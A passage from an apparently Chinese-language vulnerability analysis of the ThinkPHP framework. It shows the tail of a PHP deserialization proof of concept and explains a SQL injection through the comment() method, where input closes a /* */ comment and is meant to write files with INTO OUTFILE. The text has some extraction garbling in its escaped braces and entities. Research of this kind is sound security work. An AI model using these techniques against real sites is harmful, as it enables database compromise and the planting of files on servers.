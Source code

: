```
            "debug"    =&gt; 1,
            "database" =&gt; "test",
            "hostname" =&gt; "127.0.0.1",
            "hostport" =&gt; "3306",
            "charset"  =&gt; "utf8",
            "username" =&gt; "root",
            "password" =&gt; "root"
        );
    `}`
`}`

namespace `{`
    echo base64_encode(serialize(new Think\Image\Driver\Imagick()));
`}`
```



## 0x03 注释注入

触发注释注入的调用为：`$user = M('user')-&gt;comment($id)-&gt;find(intval($id));`。

调试跟进一下，调用的是 `Think\Model.class.php` 中的 `comment`

```
/**
 * 查询注释
 * @access public
 * @param string $comment 注释
 * @return Model
 */
public function comment($comment)
`{`
    $this-&gt;options['comment'] =   $comment;
    return $this;
`}`
```

之后调用 `Think\Model` 的find方法。一直到调用了 `Think\Db\Driver.class.php` 中的 `parseComment` 函数，将我们输入的内容拼接在了注释中，于是我们可以将注释符闭合，然后插入SQL语句。此时的SQL语句为 `"SELECT * FROM`user`WHERE`id`= 1 LIMIT 1   /* 1 */"`

```
protected function parseComment($comment) `{`
    return  !empty($comment)?   ' /* '.$comment.' */':'';
`}`
```

如果这里没有 `LIMIT 1` 的话我们可以直接进行union注入，但是这里有 `LIMIT 1` ，进行union注入会提示 `Incorrect usage of UNION and LIMIT`，只有同时把union前的SQL查询语句用括号包起来才可以进行查询，但是显然我们无法做到，那么我们可以利用 `into outfile` 的拓展来进行写文件。

```
"OPTION"参数为可选参数选项，其可能的取值有：
`FIELDS TERMINATED BY '字符串'`：设置字符串为字段之间的分隔符，可以为单个或多个字符。默认值是“\t”。
`FIELDS ENCLOSED BY '字符'`：设置字符来括住字段的值，只能为单个字符。默认情况下不使用任何符号。
`FIELDS OPTIONALLY ENCLOSED BY '字符'`：设置字符来括住CHAR、VARCHAR和TEXT等字符型字段。默认情况下不使用任何符号。
`FIELDS ESCAPED BY '字符'`：设置转义字符，只能为单个字符。默认值为“\”。
`LINES STARTING BY '字符串'`：设置每行数据开头的字符，可以为单个或多个字符。默认情况下不使用任何字符。
`LINES TERMINATED BY '字符串'`：设置每行数据结尾的字符，可以为单个或多个字符。默认值是“\n”。
```
